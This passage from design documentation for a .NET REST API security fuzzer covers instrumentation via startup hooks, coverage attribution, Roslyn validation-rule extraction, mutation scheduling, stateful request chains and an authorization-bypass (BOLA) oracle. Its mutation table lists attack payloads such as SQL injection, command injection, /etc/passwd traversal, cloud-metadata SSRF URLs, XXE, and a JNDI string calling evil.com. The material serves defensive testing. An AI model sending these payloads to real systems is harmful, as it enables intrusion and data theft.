The original design injected a `CoverageExtensions.cs` file straight into the target's own project and edited `Program.cs`/`Startup.cs` with regex to register coverage middleware. That worked, but it violated the "zero-edit" design goal from §5 and was fragile against the huge variety of real `Program.cs` shapes in the wild (minimal hosting, `Startup` classes, top-level statements, custom pipeline-configuration conventions).

The current default (`--inject-mode hook`) instead uses two .NET runtime features most engineers only know from APM agents, repurposed for coverage:

**`DOTNET_STARTUP_HOOKS`** is an environment variable that points the .NET runtime at a managed assembly whose `StartupHook.Initialize()` method runs *before* the target's own `Main()`. This is where the coverage runtime maps the shared bitmap and links SharpFuzz into every loaded assembly — with zero target-code changes, because the hook lives entirely in its own generated `UpsideFuzz.Coverage` assembly:

```csharp
internal class StartupHook            // global namespace, exact name required by the .NET runtime
{
    public static void Initialize() => CoverageRuntime.Bootstrap();
}
```

`Bootstrap()` does three things worth calling out individually:

```csharp
// 1. Resolve our own assembly + SharpFuzz.Common from /coverage, which is NOT on
//    the app's probing path — so the target's own directory stays untouched.
AssemblyLoadContext.Default.Resolving += (ctx, name) => {
    var candidate = Path.Combine(hookDir, name.Name + ".dll");
    return File.Exists(candidate) ? ctx.LoadFromAssemblyPath(candidate) : null;
};

InitializeShm();

// 2. Link every assembly already loaded...
foreach (var a in AppDomain.CurrentDomain.GetAssemblies()) LinkAssembly(a);
// 3. ...and every assembly loaded LATER. This is the fix for lazily/dynamically
//    loaded modules whose coverage was previously lost entirely.
AppDomain.CurrentDomain.AssemblyLoad += (s, e) => LinkAssembly(e.LoadedAssembly);
```

Step 3 is the part that actually matters in practice. Earlier revisions linked SharpFuzz once, at startup, which silently dropped coverage for any assembly loaded *after* that point — exactly what happens with plugin-style module loading (SimplCommerce's individually-loaded store modules are the concrete example that surfaced this). Hooking the `AssemblyLoad` event instead means each assembly's own copy of `SharpFuzz.Common.Trace.SharedMem` gets pointed at the one shared bitmap the instant it loads, before any of its methods JIT — closing a real, previously-silent coverage gap.



*The whole zero-edit trick in one picture: the hook attaches itself before the target's own code ever runs, and keeps attaching to new assemblies for the entire lifetime of the process — the target's source is never touched at any point in this sequence.*

**`ASPNETCORE_HOSTINGSTARTUPASSEMBLIES`** is the ASP.NET-specific companion mechanism: a "hosting startup" assembly's `IHostingStartup.Configure` runs during host construction, again with zero target-code edits, and can register an `IStartupFilter` that inserts middleware into the request pipeline. UpsideFuzz uses this to add one middleware that both serves the `/shm/*` control endpoints (described in §8) and performs per-request coverage attribution.

The honest tradeoff, stated plainly rather than glossed over: an `IStartupFilter`-registered middleware sits *outside* the app's own configured pipeline. If the target has a global `UseExceptionHandler` that catches unhandled exceptions and writes its own generic 500 response before our middleware's `finally` block runs, the middleware may never see the real exception type for that request. The legacy `--inject-mode source` (which places the middleware *inside* the app's own pipeline by editing `Program.cs` directly) is retained specifically for cases where maximal exception-type fidelity in production mode matters more than the zero-edit guarantee. This is a genuine, currently-unresolved limitation of the zero-edit approach — see §17.

### Fail-closed self-verification: the single most trust-relevant piece of this whole layer

Because "the run silently produced zero real coverage" is the failure mode that matters most for a security tool — a clean report from a fuzzer that was never actually instrumented reads exactly like "this API has no bugs," which is the worst possible false signal — the engine actively probes the target's health *before* it starts fuzzing and refuses to run at all if instrumentation looks dead (`void/go/coverage.go::checkCoverageHealth`).

The concrete check: fetch `GET /shm/health` (fatal if unreachable, or if it reports the shared-memory pointer was never bound); then send a small number of real, unmutated warm-up requests through the exact same request-building path the fuzzer's own first epoch uses (not a synthetic health-check request); then check whether the coverage bitmap actually gained any new edges as a result. If the target is reachable, responds normally, even reports application assemblies loaded — but the bitmap stayed completely flat across real traffic — that's conclusive evidence the target was simply never IL-rewritten (wrong Docker image, wrong `--src` path, or a namespace accidentally excluded), and the run is refused by default. `-allow-degraded-coverage` downgrades this to a warning, but that flag exists for debugging the instrumentation pipeline itself, not for routine use.

This design was validated against a real mistake made along the way: an earlier draft tried to compute the health verdict on the *.NET side*, by checking whether each app assembly itself defined SharpFuzz's `Trace` type. That check is *always* false, even on perfectly healthy instrumentation — `Trace.SharedMem` lives only in `SharpFuzz.Common.dll`, never in the app's own IL-rewritten assemblies, by construction — so it flagged every healthy target as broken. This was caught before shipping by the project's own end-to-end regression fixture (`fixtures/planted-bug-api/`, §14), which is exactly the kind of mistake that fixture exists to catch.

## 8. Coverage pipeline: from a raw bitmap to a usable fitness signal

### Bucketed hit counts, not just "did this happen"

The naive version of coverage tracking — one bit per edge, set once it's ever hit — throws away a huge amount of signal: an edge executed *once* looks identical to the same edge executed *5,000 times*. That matters more than it sounds like it should, because so much of a real API's interesting behavior lives inside loops, pagination, retry logic, and state machines — a fuzzer using pure binary presence plateaus the instant every edge has been touched once, and then has no way to notice that it's now inside a *much deeper* iteration of the same loop than it was five minutes ago, which is often exactly where an off-by-one or integer-overflow bug lives.

AFL solved this years ago with **log-scale hit-count buckets**: instead of "hit or not," each edge's raw hit count gets classified into one of eight buckets — `1, 2, 3, 4–7, 8–15, 16–31, 32–127, 128+` — via a fixed 256-entry lookup table. A **new bucket** for an already-seen edge (going from "hit once" to "hit 4-7 times" for the first time) counts as genuinely new coverage, not a repeat. UpsideFuzz implements the identical scheme on both sides of the pipeline — `CoverageExtensions.cs::CountClass` in C#, `coverage.go::countClass` in Go — and tracks a persistent per-edge "virgin map" of which buckets have already been seen. This is not a novel idea; it's table stakes borrowed directly from AFL. But it is the concrete difference between a fuzzer that keeps making measurable progress deep inside a retry loop and one that silently stalls the moment surface-level coverage saturates.

### The attribution problem: whose coverage was that, under concurrency?

A REST API handles many requests concurrently, all writing into the *same* shared bitmap. Naively, you'd read the global edge count before a request, read it again after, and call the difference "this request's coverage" — but that's wrong twice over. First, it's slow: it means scanning the entire bitmap (up to several hundred kilobytes) twice per request, in the hot path, at whatever concurrency level the fuzzer is running. Second, and worse, it's *incorrect* under concurrency: if Request A and a concurrent Request B both happen to reach genuinely new code at nearly the same moment, a before/after diff credits *both of them* with the *same* full delta — a form of double-counting sometimes called "coverage smearing" that directly corrupts every downstream signal built on top of it (which seeds look valuable, which mutation categories seem to be working).

UpsideFuzz's fix is **first-observer-wins, single-scan attribution**: after a request's handler finishes running, the middleware makes exactly one pass over the live bitmap, merges it into the shared persistent virgin map under a short lock, and returns the count of buckets *this specific request was the first one to observe*:

```csharp
// CoverageRuntime.MergeAndCountNovel(), simplified
lock (covLock) {
    for (int i = 0; i < SHM_SIZE; i += 8) {
        if (*(ulong*)(b + i) == 0) continue;        // skip empty 8-byte words fast
        for (int j = 0; j < 8; j++) {
            byte bucket = CountClass[b[i + j]];
            if ((seenBuckets[i + j] & bucket) == 0) { seenBuckets[i + j] |= bucket; novel++; }
        }
    }
    totalClasses += novel;
}
```



*Naive before/after diffing would have credited **both** A and B with the same delta — double-counting that corrupts every downstream signal built on it. First-observer-wins means only whichever request's merge actually runs first gets the credit; the other correctly sees zero.*

This is stated honestly as an approximation, not a solved problem: it is **not** true per-thread coverage isolation — SharpFuzz's probes all write into one shared buffer regardless, so there is no way to know *which* concurrent request actually executed a given edge, only which one's merge happened to run first. What this design *does* fix is the pathological error: whichever concurrent request reaches the merge step first claims each newly-discovered bucket, and any other concurrent request that also touched it sees the bucket already marked and is correctly credited zero — eliminating the double-counting entirely, while also halving the per-request scan cost versus the naive before/after approach (one pass instead of two, with a fast path that skips any all-zero 8-byte word outright). True per-thread trace-buffer isolation, which would remove even the residual ordering effect, would require forking SharpFuzz's own probe implementation — a real, still-open item tracked in [`ARCHITECTURE_REVIEW.md`](ARCHITECTURE_REVIEW.md#2-coverage-feedback-shm-bitmap-middleware-readers).

### Sizing the bitmap to the target, not a fixed guess

Earlier revisions used a fixed 256KB bitmap for every target regardless of size — which meant a small internal tool wasted most of a scoreboard it never came close to touching, while a genuinely large application (Bitwarden's full API surface, for instance) suffered heavy **hash collisions**: two genuinely different edges landing on the same bitmap slot by coincidence, which corrupts the coverage signal by making the fuzzer think it already saw something it hasn't. The instrumentor now records, at build time, how many types it actually instrumented per assembly, and the coverage runtime sizes the bitmap from that real count (roughly 512 bytes per instrumented type, rounded to a power of two, clamped between 64KB and 8MB) — like sizing a net to the pond you're actually fishing in, rather than always using the same net. This is stated honestly as a *proxy*, not an exact edge count — SharpFuzz doesn't expose a public branch-count API, so instrumented-type count is the best available stand-in, not a literal measurement.

Relatedly, the engine used to reset (zero out) the entire bitmap the instant it crossed a fixed "too full" saturation percentage, even in the middle of genuinely learning new things. It now only resets when the bitmap is **both** highly saturated *and* has produced no new edge for a sustained period — so a fixed percentage threshold alone never throws away real, still-productive progress.

### Production-mode exception attribution

In non-Development ASP.NET Core, the framework's own exception handler starts writing the error response and clears response headers *before* the coverage middleware's `finally` block gets a chance to run — which historically meant the vast majority of production-mode crashes were completely unattributable (no exception type, no message, nothing for the crash-clustering logic in §14 to key off of). The middleware now detects fuzzer-originated traffic specifically (via an `X-Fuzz-Request-Id` header the engine attaches to every request it sends) and, only for that traffic, on an unhandled exception it short-circuits with its own 500 response carrying sanitized `X-Exception-Type`/`X-Exception-Message` headers. Genuine, non-fuzzer traffic is re-thrown completely untouched — this mechanism never changes real user-facing behavior, only what the fuzzer itself can observe about its own requests.

## 9. Roslyn analysis: recovering the validation rules the spec doesn't tell you

The point of static analysis in this pipeline is narrow and practical, not a general-purpose code-quality tool: **learn what the target's validation layer actually wants, so the fuzzer can get past it and reach the business logic behind it** (recall §4's point that random/spec-only-derived values often bounce off the validation wall forever).

The earliest version of this idea regex-scraped C# source text for attributes like `[StringLength]`/`[Range]` and attributed the resulting constraint by *field name alone, globally* — so a `Name` property with `[StringLength(50)]` in one DTO would silently constrain *every* field named `name` anywhere else in the app, including in completely unrelated classes. This is a real, previously-shipped bug, confirmed concretely on eShopOnWeb, which happens to have two unrelated classes both named `CreateCatalogItemRequest` — one a real API DTO with no length constraint, one an unrelated internal UI model that does have one — where the name-based approach cross-contaminated the two.

`dotnet/analyzer/` replaces the regex scrape with a **real Roslyn syntax-tree analyzer** (`Microsoft.CodeAnalysis.CSharp`) — the same compiler front-end technology that powers Visual Studio's own IntelliSense and refactoring tools, used here purely to parse and walk the syntax tree, not to run a full semantic compile. It's a deliberate design choice to stay at the syntax-tree level rather than build a full **semantic model** (which would require `MSBuildWorkspace` and a real NuGet restore of the target project) — requiring the target to fully restore-and-build inside the analyzer is exactly the kind of fragility this project is trying to avoid, since it would make the tool fail on any target with an unusual build setup, missing package feed, or version conflict. The tradeoff is real and stated honestly: some validation constructs (a custom `ValidationAttribute` subclass, an `IValidatableObject.Validate()` implementation with arbitrary logic, a non-literal enum) genuinely cannot be understood without a semantic model. Rather than silently guessing at these or crashing, the analyzer records them in an explicit **`unmodeled_validation`** list — a design choice worth calling out on its own, because it generalizes well beyond this project: *when your analysis hits something it cannot faithfully model, write down that fact rather than hiding it.* The grammar consumer can decide to fuzz that field harder precisely because it's flagged as unmodeled, and a human reading the output knows exactly where the constraint model's blind spots are instead of assuming false completeness.

Concretely, the analyzer (`SourceIndex.cs` for the initial parse and partial-class/enum indexing, `ConstraintWalker.cs` for data annotations, `FluentValidationWalker.cs` for FluentValidation chains, `RouteAuthWalker.cs` for routes/auth, `TypeResolver.cs` for resolving property CLR types, and `RoslynUtil.cs`/`Models.cs` for shared helpers and output shapes, all driven by the `Program.cs` CLI entry point) extracts, per type-and-property:

- Data-annotation constraints — min/max length, numeric range, regex pattern, `required`, `email`, `url` — plus enum values (both named and raw numeric) and `partial` class merges (since C# allows a class's members to be split across files).
- FluentValidation rule chains (`RuleFor(...)` fluent syntax), including whether a rule is conditional (`When`/`Unless`).
- Route and `[Authorize]` metadata, in **both** the traditional controller style (`[Route]`/`[HttpGet]` attributes on a class and its methods) and the newer minimal-API/`IEndpoint` style (`app.MapPost("route", [Authorize] ...)`) — the latter matters concretely because eShopOnWeb's public API uses it exclusively, and a naming-convention heuristic alone would miss it entirely.

The critical fix over the old approach is that every extracted constraint is keyed by **`(fully-qualified type name, property name)`**, never a bare property name — so the `CreateCatalogItemRequest` collision above cannot happen again by construction, not by convention. A property constraint crosses from C# into the Python grammar compiler as flat JSON:

```json
"Currency": { "clr_type": "string", "max_length": 3, "enum_values": ["USD","EUR","GBP"],
              "required": true, "source": ["StringLengthAttribute","RequiredAttribute"] }
```

`grammarc/` merges this over the OpenAPI-derived field model (Roslyn wins on a scoped, exact `(type, property)` match; the OpenAPI-derived value is used otherwise) and synthesizes concrete **boundary values** from it: for `max_length: 3`, it generates length-2, length-3, length-4, and an oversized string; for a numeric `minimum`/`maximum`, it generates the bound itself, the bound ± 1, and a clear overflow value. This is the mechanism behind the "instead of a random string that's either obviously fine or obviously garbage, specifically try 49/50/51 characters" idea from §4 — the exact boundary a real off-by-one validation bug is statistically most likely to hide at.

## 10. Request generation: the grammar compiler and the mutation engine

### The grammar compiler (`grammarc/`)

`grammarc/` is a first-party, stdlib-only Python OpenAPI-to-grammar compiler. Its modules split cleanly by responsibility: `oas.py` parses OpenAPI 2.0 (Swagger)/3.x directly (resolving `$ref`/`allOf`/`oneOf`/`anyOf` schema composition itself); `dependencies.py` infers producer/consumer relationships between operations by path and field-naming convention (§4's "a `POST` creates an id a later `GET` needs"); `body_serializer.py` serializes request bodies into typed segments; `multipart.py` handles multipart/form-data specifically; `roslyn_merge.py` merges in the Roslyn constraints from §9; `boundary.py` synthesizes the boundary values described there; `common.py` holds small shared helpers (canonical-key normalization, dedup); and `emit_templates.py`/`emit_dict.py` write the final artifacts — `templates.export.json` (the request templates) and `dict.json` (a flat dictionary of per-field candidate values) — directly, with no intermediate representation and no external tooling involved in this step at all.

This replaced an earlier design built directly on **RESTler** (Microsoft's well-regarded stateful black-box REST fuzzer), which is worth being candid about: RESTler's grammar compiler and producer-consumer inference are genuinely excellent, and the original version of this project's grammar path was built directly on top of them. The switch to a first-party compiler wasn't because RESTler was bad — it was because a three-language pipeline where a Python step emitted a Python module that a Go program had to re-parse turned into a genuinely undebuggable chain of tools, and this project wanted grammar quality to be a function of code it controls end-to-end rather than an external compiler's specific OpenAPI-coverage gaps. RESTler is now fully retired from this codebase.

One concretely instructive bug was found during that migration, worth including because it's the kind of thing that's invisible until you go looking for it: the old exporter emitted a JSON field named `"name"` for every dictionary-backed request segment, but the Go engine's parsing code had only ever read a field called `"payload_key"`. The two sides simply never agreed on a field name — meaning that for the *entire lifetime* of the RESTler-based pipeline, every harvested/correlated value that was supposed to flow from a producer into a consumer (the exact mechanism §4 and §12 describe) silently substituted an empty string instead, with no error, no warning, and a fully "working" pipeline running on top of it the whole time. `grammarc/emit_templates.py` now emits `"payload_key"` directly, fixing this by construction. The lesson generalizes: an implicit, non-schema-validated file format between two languages is exactly where this class of silent bug hides, and it's why `ARCHITECTURE_REVIEW.md` calls out the lack of a schema-validated contract between the three subsystems as an open structural weakness, not just a historical curiosity.

A template, once compiled, is a list of typed **segments**: static text, `custom_payload` (a dictionary-backed value with a key into `dict.json`), `fuzzable` (a typed, constraint-carrying value the mutation engine generates and mutates), and `dynamic` (a producer/consumer dependency slot — "fill this from a value harvested from an earlier response"). The Go engine renders a template's segments into a real HTTP request, sends it, and — for the templates or fields worth mutating — mutates before sending.

### The mutation engine: what "mutation" actually means here, category by category

Recall from §1 that mutation-based fuzzing takes a plausible-looking input and deliberately breaks specific parts of it. UpsideFuzz's mutation engine (`void/go/mutation_engine.go`, `mutations.go`) organizes its mutations into named **categories**, each representing a different kind of "break this specific way":

| Category | What it does | Why this specific shape |
|---|---|---|
| `boundary` | Swaps a value for `""`, `null`, `NaN`, `Infinity` | The classic edge-of-the-type-system values every parser/validator has to handle correctly, and frequently doesn't |
| `overflow` | Very long strings, very large/negative numbers (1024, 5000, 10000-character strings; `Int32.MaxValue`-adjacent numbers) | Buffer/length-check and integer-overflow classes of bug |
| `sqli` | `' OR '1'='1`, `'; DROP TABLE--`, UNION-based payloads | Classic SQL injection signatures |
| `xss` | `<script>alert(1)`, SVG/`onload` variants, JS-prototype payloads | Reflected/stored cross-site scripting |
| `cmdi` | `; id`, `` `id` ``, `$(id)` | OS command injection shell metacharacters |
| `path_traversal` | `../../../etc/passwd` and encoded variants | Directory/path traversal |
| `ssrf` | Cloud-metadata URLs (AWS/GCP), `file:///`, `dict://` | Server-side request forgery targets |
| `ssti` | `{{7*7}}`, `${7*7}`, `#{7*7}` | Server-side template injection across different templating engines' syntax |
| `open_redirect` | `//evil.com`, `\\/evil.com` | Unvalidated redirect targets |
| `crlf` | `\r\nX-Injected: pwned` | HTTP response-splitting / header injection |
| `log4shell` | `${jndi:ldap://evil.com/x}` | JNDI-lookup-style injection (relevant wherever a .NET app embeds a Java-adjacent logging/templating dependency) |
| `nosqli` | `{"$gt":""}`, `{"$where":"sleep(5000)"}` | NoSQL/MongoDB-style operator injection |
| `ldap` | `*)(uid=*))(|(uid=*` | LDAP filter injection |
| `xxe` | `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>` | XML external entity injection |
| `unicode` | Zero-width characters, homoglyphs, byte-order marks, right-to-left override characters | Unicode-normalization and rendering-confusion bugs |
| `json` | Mass-assignment field injection, deeply nested objects, array-length overflow, .NET `$type` deserialization-gadget payloads | JSON-structural and .NET-specific deserialization attack classes |

Beyond firing one of these payloads into a single field, the engine **stacks** multiple categories together during its more aggressive phases (§11): for example, applying `json`'s `$type` deserialization-confusion payload to a field, then wrapping the result in a hundred levels of nested JSON objects — synthesizing a genuinely complex, layered payload that would be tedious and impractical to hand-write as a static dictionary entry, purely by composing two independently-simple mutation primitives.

**Constraint-aware boundary mutation** blends §9's Roslyn/OpenAPI-derived field constraints directly into the generic mutators, additively — a field with a known `minimum`/`maximum` gets its exact `{min-1, min, min+1, max-1, max, max+1}` boundary candidates blended into the same candidate pool the generic `overflow`/`boundary` mutators already draw from, and a field with a known `maxLength` or `enum` gets exact-length strings and near-miss-invalid enum values blended in the same way. This is additive rather than a replacement specifically so a field with no known constraint (an older grammar, or one where source wasn't available) behaves exactly as if this feature didn't exist. Measured concretely on eShopOnWeb: the same live-fuzz session, same time budget, hit a known `pageSize` integer-overflow bug class roughly 7x more often after this landed (124 crash-hits out of 18k total requests, versus 18 crash-hits out of 54k requests before) — depth over breadth, from the same wall-clock budget.

**Adaptive category weighting (MOpt-style).** The engine doesn't pick a mutation category uniformly at random — it implements an MOpt-inspired scheduler where a category's selection weight rises whenever it discovers new coverage (recall §2's "interesting input" definition): `weight = 1.0 + (hitRate × 4.0)`, up to a 5x multiplier. In plain terms: if the specific target under test turns out to be far more sensitive to JSON-structural mutations than to SQL injection attempts, the engine notices this from the coverage feedback alone and statistically shifts toward firing more of what's actually working against *this* target, without anyone hand-tuning it per target.

**CMPLOG-lite: learning from the server's own validation errors.** One particularly cheap idea earns an outsized amount of its keep. ASP.NET's standard validation-failure response shape (`ValidationProblemDetails`/ModelState) often looks like `{"errors": {"Currency": ["The Currency field must be one of: USD, EUR, GBP."]}}` — and the server, trying to be helpful to a legitimate API consumer, is *volunteering* the exact valid values it wants. `worker.go::mineClientErrorFields` parses this shape (and looser free-text phrasing like `"must be one of [...]"`) out of every `400` response body and feeds the extracted candidate values straight back into the same value pool future requests draw from. This is a black-box analog of a real technique from native fuzzing called **CMPLOG/RedQueen** (see below) — instead of instrumenting comparison operations directly, it reads the values the server tells the fuzzer about, for free, in its own error messages. It's deliberately conservative: a non-matching response body yields an empty result, never an error, and an unrelated JSON object (`{"count": 5}`) is explicitly never mistaken for a field-to-values map.

**Real CmpLog/RedQueen via IL comparison instrumentation.** The idea above only recovers values the server *chooses to tell you about*. There is a separate, structurally different class of value it can never reveal: a constant baked directly into the target's own compiled comparison logic that the server has no reason to ever surface in an error message — `if (couponCode == "SUMMER2026-INTERNAL")` — the exact kind of "magic value" check that no OpenAPI spec, no dictionary, and no generic mutation strategy could ever guess by chance. This is the .NET analog of AFL++'s CmpLog/RedQueen feature, and it works by a second, independent Cecil instrumentation pass (separate from SharpFuzz's own coverage rewrite, run after it succeeds) that rewrites two specific IL shapes so their comparison operands are recorded, unmodified, immediately before the original comparison executes: plain string-equality/`StartsWith`/`EndsWith`/`Contains` calls, and integer-literal-versus-compare sites (an `ldc.i4`/`ldc.i8` immediately followed by an equality check or branch). Both transforms only ever *insert* instructions, never remove or reorder existing ones, so nothing about the target's actual behavior changes — this is purely a passive observer bolted onto the comparison, verified with a dedicated correctness harness asserting identical behavior before and after instrumentation across 15 test cases, including comparisons inside live `try`/`catch`/`finally` blocks. The harvested strings and integers are served over an additional `/shm/cmplog` endpoint and blended into the mutation engine's candidate pools (`void/go/cmplog.go`) the same additive way as everything else in this section — a probabilistic splice for strings, a plain candidate-union member for integers. Stated honestly: only the "constant immediately before the compare" IL shape is caught (`x == CONST`, not generally `CONST == x`, since those aren't adjacent instructions), and general relational comparisons (`<`, `>`) and compiler-generated switch-statement jump tables are not handled — correctly intercepting those needs real data-flow/stack-depth analysis this pass deliberately doesn't attempt.

**Static constant extraction.** A complementary, unconditional (no traffic required, no flag needed) pass reads every string/integer literal directly out of the target's own compiled IL at instrumentation time — the .NET analog of AFL's `-x` auto-dictionary extraction — and makes those values available to mutation (`void/go/constants.go`) from the very first request, before any live comparison has even been observed. It deliberately runs *before* SharpFuzz's own coverage rewrite injects its own bitmap-index integer constants into the IL, specifically to avoid harvesting SharpFuzz's own internal bookkeeping values as if they were meaningful business-logic constants (confirmed empirically: running this pass in the wrong order picked up roughly 16 spurious pseudo-random integers per assembly that were coverage-instrumentation noise, not target code).

## 11. Scheduling: deciding what to try next, out of a huge space of possibilities

With a large space of possible requests and a fixed time budget, *what to try next* is as important as *what's possible to try at all*. The time budget is split into four sequential **epochs**, each a different search strategy, with automatic rebalancing between them:

```
Time Budget
|------+--------+------------------------+-------------|
|  5%  |  30%   |          50%           |    15%      |
| Base |  Det   |         Havoc          |  Splicing   |
| line |        |   (depth escalation)   | (cross-seed)|
```

- **Baseline (5%)** — every known template is sent completely unmutated, once. This establishes the initial seed corpus and a baseline "coverage ceiling" that later saturation percentages are measured against, rather than the raw bitmap capacity.
- **Deterministic (30%)** — pick a seed (weighted by its accumulated "energy," below), apply exactly **one** mutation to one field, systematically. Methodical, exhaustive-leaning exploration.
- **Havoc (50%)** — pick a seed, apply **1 to 4 stacked mutations** at once (recall §10's stacking example). Depth starts shallow and escalates automatically whenever coverage stalls, favoring messier, deeper, more aggressive combinations the longer a plateau lasts.
- **Splicing (15%)** — pick **two** different successful seeds and cross-pollinate them: one seed's template, the other's havoc-mutated field values. A cheap way to combine two independently-interesting inputs into a third.

Budget is not statically fixed across a run — a phase that's stopped teaching the fuzzer anything new automatically loses budget to a phase that's still finding new coverage, rather than burning a fixed percentage regardless of whether it's still productive.



*Not a strict one-way pipeline — the arrows back into Havoc and the self-loops are the point: this is a feedback-driven budget reallocation, not a fixed four-stage script.*

**Seed energy.** A "seed" is a saved (template, rendered-payload) pair that produced something worth remembering. Every seed carries an **energy** score that determines how often it gets picked (via a Fenwick-tree-weighted random selection — a data structure that makes weighted sampling from a large, frequently-updated set of weights efficient): a seed gains +5 energy every time one of its mutations discovers a new coverage edge, decays by 0.5% every time it's picked (so a seed that stops being productive gradually loses priority instead of hogging the schedule forever or getting stuck at a local maximum), and gets a **surprise bonus** — `1.0 + log2(requests)`, tripled if it's the first new edge found in a long stall — when a heavily-fuzzed, seemingly-exhausted seed unexpectedly yields new coverage anyway. That last rule specifically rewards *deep, rare* transitions (a bug three retries deep into a rate-limiting loop) over merely mapping shallow API surface area, which is a meaningfully different prioritization than "spend equal time on every endpoint." The in-memory corpus this all operates over is capped (pruned once it exceeds 500 seeds) and does not currently persist across runs — see §17.

This entire scheduling apparatus — the epoch model, the Fenwick-tree energy sampling, the MOpt category weighting — is, stated honestly, not a novel algorithm. It is a careful, request-domain-specific port of ideas AFL++ already established for binary fuzzing. What makes it *actually pay off* here specifically is that the coverage signal feeding all of it was made trustworthy first (§8) — a sophisticated scheduler built on top of a smeared, double-counted, or unbucketed coverage signal is optimizing against noise, no matter how good the scheduling math is. Signal quality first, clever search second, in that order.

## 12. Stateful sequences: testing workflows, not just single requests

Recall §4's point: `PUT /orders/{id}` needs a real order id, and some of the most damaging bugs — a coupon applied twice, a refund issued after a transfer, an object accessed after it was supposedly deleted — only exist across *multiple* steps, never inside any single request in isolation. Pure single-request fuzzing structurally cannot find these, no matter how good its coverage feedback or grammar is.

UpsideFuzz's sequence engine watches every successful write. When a `POST` creates something and the response contains an id (in the JSON body, or a `Location` header), the engine harvests that *real* id, finds which other request templates are known to consume an id of the same shape (via the grammar's own declared producer/consumer relationships from §10, plus an independent same-path-family fallback that still works even when the grammar-level inference is wrong or missing), and fans out follow-up requests in a realistic `POST → GET → PUT → DELETE` priority order, cloning the accumulated chain state per branch so multiple explorations can proceed independently. If a step in a chain fails outright (no real id was ever produced), the engine doesn't just abandon the chain — it falls back to a plausible fake id, so even a "broken" chain still gets to test whether downstream endpoints correctly reject an id that was never valid to begin with.



*A real id, harvested once from a successful `POST`, gets threaded into every downstream request that needs one — this is what lets the fuzzer actually reach `PUT`/`DELETE` logic instead of only ever probing it with ids that were never valid to begin with.*

The genuinely interesting design decision here is **rewarding new workflow *shapes*, not just new coverage edges**. A raw coverage bitmap cannot distinguish the 1st `GET` after a `POST` from the 3rd identical one — both touch exactly the same code — even though only the first one taught the fuzzer anything about actual multi-step behavior. The sequence engine computes a coarse **shape signature** for every chain — the ordered sequence of `(method, normalized-path, status-class)` triples, deliberately collapsing away the concrete resource id and the exact status code down to just its class (2xx/3xx/4xx/5xx):

```go
// e.g.: "POST /orders:2xx | GET /orders/{id}:2xx | PUT /orders/{id}:4xx"
func sequenceStateSignature(state *SequenceState) string {
    parts := []string{}
    for _, step := range state.History {
        parts = append(parts, fmt.Sprintf("%s %s:%d",
            step.Method, normalizeEndpointPath(step.Path), statusClass(step.Status)))
    }
    return strings.Join(parts, "|")
}
```

A chain that reaches a shape never seen before in this run earns an energy bonus (deliberately sized to be comparable to a solid multi-edge coverage hit) and one extra unit of follow-up search budget — meaning newly-discovered *workflow* shapes get more room to keep exploring than a re-tread of an already-known shape does. Persisted workflow reports (JSON plus a runnable curl repro script for each discovered chain) are deduplicated by this same final shape, so two chains that reach the identical shape via different concrete ids or payload values are only written to disk once.

Stated honestly: this is a deliberately coarse stand-in, not the full typed resource-lifecycle state graph that research tools like DeepREST or EvoMaster build (there's no explicit model of "this specific object is now in a deleted state," and follow-up fanout is currently static-priority rather than directed toward specifically *unreached* consumer endpoints). But rewarding workflow-shape novelty *at all*, on top of pure edge coverage, is a real, working mechanism that moves the fuzzer off pure edge-chasing and toward the class of bug that only exists across steps — verified concretely against a genuine multi-step stateful bug in this project's own in-repo demo target.

## 13. Vulnerability oracles: where this stops being "a fuzzer" and becomes a security tool

This is the section that matters most if the goal is finding *vulnerabilities* rather than *crashes* — recall §3's point #4: the bugs a security engagement is paid to find almost always return a perfectly normal `200 OK`. Nothing about them looks wrong unless you specifically know what to compare against what. A **vulnerability oracle**, in this project's vocabulary, is a piece of logic that reuses the fuzzer's existing request-sending machinery to test one specific, well-defined security hypothesis and produce *positive evidence* — not a status-code check.

### BOLA / IDOR (Broken Object-Level Authorization)

**The bug, explained from nothing:** `GET /orders/482` returns order #482's full details. If the server-side code never actually checks that order #482 belongs to *the specific user making this request* — it just looks the order up by the number in the URL and returns whatever it finds — then any logged-in user can read (or, on a `PUT`/`DELETE`, modify or destroy) *anyone else's* data, simply by changing the number in the URL. This bug class is officially named "Broken Object-Level Authorization" (BOLA) — also widely called "Insecure Direct Object Reference" (IDOR) in older material — and it consistently tops the OWASP API Security Top 10 as one of the single most common and most damaging vulnerability classes found in real-world APIs. It's also structurally invisible to any tool that only watches for crashes or error responses: the response is a perfectly well-formed 200 with a normal-looking JSON body. Nothing about the HTTP transaction itself looks wrong.

**What the oracle does:** whenever any request succeeds under one authenticated identity, the engine automatically replays the exact same request under every *other* configured identity, and once more with no credentials at all. If a different identity — or no identity — gets back a substantial, non-trivial body, that's a candidate BOLA/broken-authentication finding. This requires the fuzzer to have at least two distinct real logged-in identities configured to compare against each other (see `docs/FUZZER_AUTHENTICATION.md`), which is why setting up multiple test accounts is a prerequisite step in every quickstart guide for a real target.



*This exact replay-and-compare pattern — succeed once under a real identity, then retry as everyone else — is the mechanism behind every oracle in this section, not just BOLA; only what gets compared and what counts as "interesting" changes per oracle.*

**The false-positive engineering, which is most of the actual work:** a naive version of this check would drown in noise, so a considerable amount of the real engineering effort here is specifically about *not* crying wolf:
- The no-credential probe only fires on endpoints the engine has already, independently, observed rejecting an unauthenticated request with a 401/403 at some point during the run. A genuinely public endpoint (a product catalog, a health check) never accumulates that evidence, so it's simply never flagged — this alone eliminates the single most common false-positive source (a public endpoint "failing" a check that was never applicable to it in the first place).
- Trivial and empty-collection response bodies are explicitly skipped, because two freshly-created test accounts routinely return identical *empty* results from many endpoints (an empty notification list, an empty cart) for entirely legitimate reasons that have nothing to do with authorization.
- A path only counts as "resource-scoped" (i.e., worth testing at all) if it actually contains something that looks like a real object handle — a UUID, a numeric id, or a dashed token that contains a digit — specifically so a hyphenated route *word* like `/is-country-supported` is never mistaken for an object id.
- An *identical* cross-identity response body is the strongest possible signal and scores accordingly high; a *different* 2xx body is deliberately scored lower and flagged for manual review rather than an automatic high-confidence finding — because a different body might simply be the second identity's own legitimate data, not evidence of a leak.

**The honest limitation:** this detects the "shared endpoint that forgot to check ownership at all" case well. It does *not* yet detect the harder case where each user legitimately gets a *different*, still-valid-looking body back, but user A's different body is actually user B's private object rather than A's own — telling those two situations apart requires deliberately seeding known-B-owned resource ids and replaying them specifically under identity A (an "ownership matrix"), which is a real, currently open item — see §17.

### Mass assignment

